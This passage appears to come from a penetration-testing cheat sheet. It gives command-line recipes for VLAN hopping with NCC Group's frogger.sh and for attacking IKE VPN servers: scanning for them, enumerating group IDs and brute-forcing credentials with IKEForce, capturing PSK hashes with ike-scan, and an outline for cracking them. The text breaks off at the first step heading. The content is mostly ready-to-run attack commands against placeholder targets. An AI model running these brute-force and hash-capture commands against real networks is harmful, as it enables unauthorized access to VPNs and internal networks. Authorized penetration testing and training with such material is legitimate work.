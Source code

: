 Using NCCGroups VLAN wrapper script for Yersina simplifies the process. 

```
git clone https://github.com/nccgroup/vlan-hopping.git
chmod 700 frogger.sh
./frogger.sh 
```

### VPN Hacking 

Identify VPN servers: 

```
./udp-protocol-scanner.pl -p ike TARGET(s)

```

Scan a range for VPN servers: 

```
./udp-protocol-scanner.pl -p ike -f ip.txt
```

#### IKEForce 

Or crack using IKEForce: 

Install:
```
pip install pyip
git clone https://github.com/SpiderLabs/ikeforce.git
```
Perform IKE VPN enumeration with IKEForce: 
```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```
Bruteforce IKE VPN using IKEForce: 

```
./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
```


```
ike-scan
ike-scan TARGET-IP
ike-scan -A TARGET-IP
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
```

#### IKE Aggressive Mode PSK Cracking

1. Identify VPN Servers 
2. Enumerate with IKEForce to obtain the group ID
3. Use ike-scan to capture the PSK hash from the IKE endpoint 
4. Use psk-crack to crack the hash 

##### Step 1: Idenitfy IKE Servers
